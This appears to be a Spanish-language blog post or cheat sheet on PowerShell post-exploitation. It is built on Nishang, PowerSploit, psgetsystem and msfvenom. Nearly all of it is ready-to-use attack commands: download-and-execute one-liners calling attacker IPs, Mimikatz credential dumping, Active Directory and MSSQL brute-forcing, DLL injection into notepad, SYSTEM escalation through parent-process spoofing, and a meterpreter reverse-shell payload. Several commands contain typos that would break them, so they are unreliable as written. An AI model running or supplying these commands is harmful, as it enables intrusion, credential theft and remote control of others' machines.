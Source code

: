 ```yaml
---
title: 'Powershell post exploitation'
description: ''
pubDate: 'May 12 2023'
heroImage: '/asd.png'
slug: 'powershell/post_exploitation'
---
```


- ActiveDirectory
- Antak-WebShell
- Backdoors
- Bypass
- Client
- Escalation
- Execution
- Gather
- MITM
- Misc
- Pivot
- Prasadhak
- Scan
- Shells
- Utility

[Nisang](https://github.com/samratashok/nishang) adicionalmente nos trae lo mejor de otras herramientas.

```powershell
# Copia el registro hive y el SAM del directorio actual de trabajo
iex (Net-Objcet Net.WebClient).downloadstring("http://192.168.0.17:8080/script.ps1");Copy-VSS

```

Invoke-Mimikatz cmdlet va a dumpear los hashes de la memoria

```powershell
iex (New.Object Net.WebClient).downloadstring("http://192.168.0.17/Invoke-Mimikatz"); Invoke-Mimikatz -DumpCreds

powershell.exe iex(New-Object Net-WebClient).downloadString(\"http://10.90.60.80:33333/asd.txt\");
powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.90.60.80:33333/hola\");
```

#### Bruteforcing MSSQL, Directorio activo, web y ftp

```powershell
Invoke-BruteForce -ComputerName targetdomain.com -UserList C:\temp\users.txt -PasswordList C:\temp\pass.txt -Service ActiveDirectory -StopOnSuccess -Verbose
```

#### DLL Injection - PowerSploit

```powershell
msfvenom -p windows/exec CMD="cmd.exe" -f dll > cmd.dll
# lo pasamos a la windows con iex...
iex (Net-Object Net-client).DownloadFile("http://atack_url/cmd.dll", "C:\temp\cmd.dll")
# inyectamos nuestro dll a un proceso por ejemplo notepad, identificamos el PID
ps | ? {$_.ProcessName -match "notepad"}
# ahora lo inyecatamos descargando el dll e identificando el proceso
iex (New-Object Net.Webclient).DownloadString("http://atack_url/Invoke-DLLInjection.ps1");Invoke-DLLInjection -ProcessID 7413 C:\programdata\cmd.dll

[ExplicaciónDLL Injection](http://blog.opensecurityresearch.com/2013/01/windows-dll-injection-basics.html)

```

#### Psgetsystem

Evadir apps de soluciones de lista blanca para injectar nosotros mismos a un proceso confiable

[psgetsystem script](https://github.com/decoder-it/psgetsystem)

```powershell
# descargado a nuestro target, lo source y executamos
. .\psgetsys.ps1
[MyProcess]::CreateProcessFromParent(<system_pid>, "<command_to_execute>")

# antes de hacer esto necesitamos identificar un proceso y elegimos uno que podamos utilizar
Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id
# nos da una lista de procesos system-owned justo con el PId y el nombre del proceso

# Ejecuta cmd.exe prompt pero como proceso hijo del system-owned processname.exe y como resultado nuestro proceso hijo tambien sera SYSTEM (NT authority/system)

. .\psgetsys.ps1
[MyProcess]::CreateProcessFromParent(3385, "cmd.exe")

```

otra exelente herramienta [Empire](https://github.com/EmpireProject/Empire)

```bash
msfvenom -p windows/x64/meterpreter_reverse_https lport=443 lhost=192.168.0.55 -f psh-reflection > payload.ps1

```
